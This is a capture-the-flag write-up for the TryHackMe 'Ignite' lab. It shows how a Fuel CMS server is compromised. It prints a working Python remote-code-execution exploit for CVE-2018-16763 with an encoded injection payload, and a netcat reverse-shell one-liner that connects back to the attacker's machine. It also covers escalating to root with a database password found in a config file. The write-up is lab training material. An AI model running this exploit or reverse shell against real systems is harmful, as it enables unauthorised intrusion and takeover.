

# Ignite

**Date:** 12, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/ignite) to go to the TryHackMe room.


## Enumeration

### Nmap 

```bash
$ nmap 10.10.162.181
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 14:12 IST
Nmap scan report for 10.10.162.181
Host is up (0.16s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds
```

### Fuel CMS



---

## Initial Access

### Searchsploit

- Use `searchsploit` to look for `Fuel CMS` vulnerabilities.
- We have `RCE` in the specified version

```bash
$ searchsploit fuel
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
AMD Fuel Service - 'Fuel.service' Unquote Service Path                                                         | windows/local/49535.txt
Franklin Fueling TS-550 evo 2.0.0.6833 - Multiple Vulnerabilities                                              | hardware/webapps/31180.txt
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                     | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                           | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                               | php/webapps/48778.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Reverse Shell

- Download the `RCE` exploit `47138.py`
- Make few modifications as needed. Modified code:

```py
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.162.181/"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        # proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

- Run the exploit and gain a reverse shell:

```bash
$ python 47138.py 
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```

- Reverse shell on attacker machine:

```bash
root@kali:~/Desktop/CTF/TryHackMe/ignite# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.162.181] 51214
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~/Desktop/CTF/TryHackMe/ignite# stty raw -echo;fg
nc -lvnp 1234

www-data@ubuntu:/var/www/html$ 
```


## User.txt

- Go to the home folder of `www-data` to get the user flag:

```bash
www-data@ubuntu:/home$ cd www-data/

www-data@ubuntu:/home/www-data$ ls
flag.txt

www-data@ubuntu:/home/www-data$ cat flag.txt 
REDACTED
```

---

## Root.txt

### Check SUID binaries

```bash
www-data@ubuntu:/$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null

-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /usr/sbin/pppd
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 18664 Mar 17  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwxr-sr-x 1 root mail 14336 Jul 25  2018 /usr/lib/evolution/camel-lock-helper-1.2
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 10584 Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwxr-sr-x 1 root ssh 358624 Jan 31  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

- I checked the `wall` and `expiry` binary. But I couldn't find anything to exploit!

### Locating the Password

- Use `grep` command to look for `password` inside the file system.
- Options:
    - `P` - perl-regex engine
    - `r` - recursive search
    - `z` - treat the file as one huge string. 
    - `o` - Print only the matching portion

```bash
www-data@ubuntu:/$ grep -zoPr  '.*root.*\n.*password.*' /var/www/html/fuel/
/var/www/html/fuel/application/config/database.php:     'username' => 'root',
        'password' => 'REDACTED',

www-data@ubuntu:/$ cat /var/www/html/fuel/application/config/database.php
    [..snip..]
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'REDACTED',
    [..snip..]
```

### Privilege Escalation

- Use the credentials found to switch to `root` user:

```bash
www-data@ubuntu:/$ su               
Password: 
root@ubuntu:/# whoami
root
root@ubuntu:/# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
b9bbcb33e11b80be759c4e844862482d 
```
 
 ---